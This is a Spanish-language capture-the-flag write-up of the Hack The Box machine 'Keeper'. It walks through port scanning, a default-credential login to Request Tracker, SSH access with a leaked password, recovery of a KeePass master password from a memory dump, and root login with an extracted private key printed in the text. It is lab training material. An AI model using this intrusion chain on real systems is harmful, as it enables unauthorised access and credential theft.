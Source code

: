 ![Keeper](https://github.com/n0m3l4c000nt35/Hack-The-Box/assets/149972189/f9ded6c6-9195-46ea-acb7-d1d3f9343d4d)

# Reconocimiento
---

Para iniciar la evaluación de la máquina **Keeper** en Hack The Box, se comenzó con un escaneo de puertos utilizando Nmap para identificar los servicios disponibles en la máquina objetivo.

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.227 -oG ports
```

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-16 00:18 -03
Initiating SYN Stealth Scan at 00:18
Scanning 10.10.11.227 [65535 ports]
Discovered open port 22/tcp on 10.10.11.227
Discovered open port 80/tcp on 10.10.11.227
Completed SYN Stealth Scan at 00:19, 15.04s elapsed (65535 total ports)
Nmap scan report for 10.10.11.227
Host is up, received user-set (0.16s latency).
Scanned at 2023-12-16 00:18:55 -03 for 15s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 15.15 seconds
           Raw packets sent: 73909 (3.252MB) | Rcvd: 73532 (2.941MB)
```

El escaneo reveló la existencia de los puertos 22 (SSH) y 80 (HTTP) abiertos en la máquina.

```bash
nmap -p 22,80 -n -Pn -sCV 10.10.11.227 -oN openPorts
```

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-16 00:21 -03
Nmap scan report for 10.10.11.227
Host is up (0.15s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3539d439404b1f6186dd7c37bb4b989e (ECDSA)
|_  256 1ae972be8bb105d5effedd80d8efc066 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn\'t have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.57 seconds
```

El análisis detallado de los servicios en estos puertos indicó que la máquina estaba ejecutando OpenSSH 8.9p1 en el puerto 22 y un servidor web nginx 1.18.0 en el puerto 80.

Además, se modificó el archivo `/etc/hosts` para asociar la dirección IP de la máquina objetivo con el nombre de dominio `tickets.keeper.htb`.

Se procedió a acceder al sitio web en [http://10.10.11.227](http://10.10.11.227/).

```bash
nvim /etc/hosts
<ip-victima>  tickets.keeper.htb
```

[http://tickets.keeper.htb/rt/](http://tickets.keeper.htb/rt/)

# Descubrimiento de la vulnerabilidad
---

Al explorar **Request Tracker**, se descubrieron credenciales predeterminadas para el usuario root:

[Request Tracker Default credentials](https://docs.bestpractical.com/rt/4.4.4/README.html)

```bash
NOTE: The default credentials for RT are:
		User: root
		Pass: password
```

Ingresando al panel de administración en [http://tickets.keeper.htb/rt/Admin/Users/](http://tickets.keeper.htb/rt/Admin/Users/), se encontraron dos usuarios: `lnorgaard` y `root`.

| #   | Name      | Real Name     | Email Address        | Status  |
| --- | --------- | ------------- | -------------------- | ------- |
| 27  | lnorgaard | Lise Nørgaard | lnorgaard@keeper.htb | Enabled |
| 14  | root      | Enoch Root    | root@localhost       | Enabled |

En el panel de edición del usuario `lnorgaard` [http://tickets.keeper.htb/rt/Admin/Users/Modify.html?id=27](http://tickets.keeper.htb/rt/Admin/Users/Modify.html?id=27) se encuentra un comentario indicando que la contraseña inicial es `Welcome2023!`.

```
New user. Initial password set to Welcome2023!
```

Se procede a entablar una conexión por SSH con el servidor como el usuario `lnorgaard`.

```bash
sshpass -p 'Welcome2023!' ssh lnorgaard@<ip-victima>
```

## User Flag
---

Se accedió exitosamente al sistema como `lnorgaard` utilizando la contraseña encontrada. La flag del usuario se obtuvo ejecutando el siguiente comando:

> [!IMPORTANT]
> User flag `cat /home/lnorgaard/user.txt`

# Escalada de privilegios
---

Se procedió a realizar una escalada de privilegios para obtener acceso a la cuenta root. Se estableció un servidor con **python3** para poder descargar el archivo `RT30000.zip` a la máquina atacante.

```bash
python3 -m http.server <puerto>
KeePassDumpFull.dmp  RT30000.zip  k.ppk  passcodes.kdbx
```

Se descargó el archivo `RT30000.zip` en la máquina atacante y se descomprimió con los siguientes comandos:

```bash
wget http://<ip-victima>/<puerto>/RT30000.zip
unzip RT30000.zip
```

Utilizando la herramienta [KeePass 2.X Master Password Dumper](https://github.com/vdohney/keepass-password-dumper?tab=readme-ov-file), se extrajo una posible contraseña.

[Setup KeePass 2.X Master Password Dumper](https://github.com/vdohney/keepass-password-dumper?tab=readme-ov-file#setup)

Para configurar el KeePass se necesitó instalar lo siguiente:  
[Download .NET For Windows](https://dotnet.microsoft.com/en-us/download)  
[Descargar .NET 7.0 Runtime](https://dotnet.microsoft.com/es-es/download/dotnet/7.0/runtime?cid=getdotnetcore&os=windows&arch=x64)

Se ejecutó el programa `dotnet` para extraer la posible contraseña
`dotnet run KeePassDumpFull.dmp`

```bash
Password candidates (character positions):
Unknown characters are displayed as "●"
1.:     ●
2.:     ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M,
3.:     d,
4.:     g,
5.:     r,
6.:     ø,
7.:     d,
8.:      ,
9.:     m,
10.:    e,
11.:    d,
12.:     ,
13.:    f,
14.:    l,
15.:    ø,
16.:    d,
17.:    e,
Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
```

Tras una búsqueda en Google de la posible contraseña encontrada se determinó que la contraseña está escrita en idioma danés.
[Resultados de la búsqueda en Google de M}dgrød med fløde](https://www.google.com/search?q=M%7Ddgr%C3%B8d+med+fl%C3%B8de&rlz=1C1CHBF_esAR1082AR1082&oq=M%7Ddgr%C3%B8d+med+fl%C3%B8de&gs_lcrp=EgZjaHJvbWUqBggAEEUYOzIGCAAQRRg7Mg4IARAAGAoYQxiABBiKBdIBBzc4MWowajeoAgCwAgA&sourceid=chrome&ie=UTF-8)
`rødgrød med fløde`

Se descargó [KeePassXC](https://keepassxc.org/) y se utilizó para abrir el archivo `passcodes.kdbx` con la contraseña obtenida.
[https://keepassxc.org/download/#linux](https://keepassxc.org/download/#linux)

```bash
keepassxc passcodes.kdbx
rødgrød med fløde
```

En el apartado **Network** se encuentra un usuario **root** y se visualiza una clave privada la que copiamos y guardamos en un archivo con extensión **.ppk**

key.ppk
```
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
```

Para acceder al sistema como el usuario root y haciendo uso de la clave encontrada en el gestor de contraseñas se necesita convertir la clave privada.

[https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)  
Seguir las instrucciones del README.md para instalar la última versión de `putty`

```bash
cmake .
cmake --build .
cmake --build . --target install
```

Al instalar la versión 0.79 (al día de escrito este write-up) la última versión, se puede convertir el archivo key.ppk a un archivo **PEM RSA private key**. Puede que versiones anteriores a esta arrojen un error en la conversión.

```bash
puttygen key.ppk -O private-openssh -o root.pem
```

Accedemos al sistema mediante SSH haciendo uso de la clave privada recientemente convertida.

```bash
ssh -i root.pem root@10.10.11.227
```

## Root Flag
---

Con privilegios de root, se localizó la root flag en el directorio `/root`

> [!IMPORTANT]
> Root flag `cat /root/root.txt`
